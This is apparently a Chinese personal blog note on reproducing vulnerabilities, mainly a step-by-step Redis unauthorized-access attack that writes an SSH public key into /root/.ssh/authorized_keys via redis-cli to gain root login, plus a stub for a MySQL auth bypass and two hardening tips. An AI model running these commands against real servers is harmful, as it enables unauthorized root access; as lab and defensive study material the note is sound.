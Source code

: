 ```yaml
---
title: 漏洞复现
date: 2022-02-21 10:24:08
tags:
      - 安全
      - 漏洞
categories:
description:
keywords:

---
```




# 漏洞复现

### CVE-2012-2122Mysql身份认证漏洞

进入MySQL靶场

### redis未授权



>首先使用ssh-keygen -t rsa 来生成一个密钥 #生成密钥
>
>cd /root/.ssh
>
>(echo -e"\n";cat id_rsa.pub;echo -e "\n")>key.txt #密钥输出
>
>cat key.txt|redis-cli -h ip地址 -p 端口 -x set crack #写入密钥
>
>redis-cli -h ip地址 -p 端口 #匿名连接
>
>config set dir /root/.ssh #设置redis备份文件的目录
>
>config set dbfilename authorized_keys #设置文件名
>
>save #保存文件
>
>exit
>
>
>
>ssh -i id_rsa root@ip地址 #使用ssh连接

防御方法

1.将redis.conf的bind设置为127.0.0.1

2.在redis.conf文件找到requirepass设置登录的认证
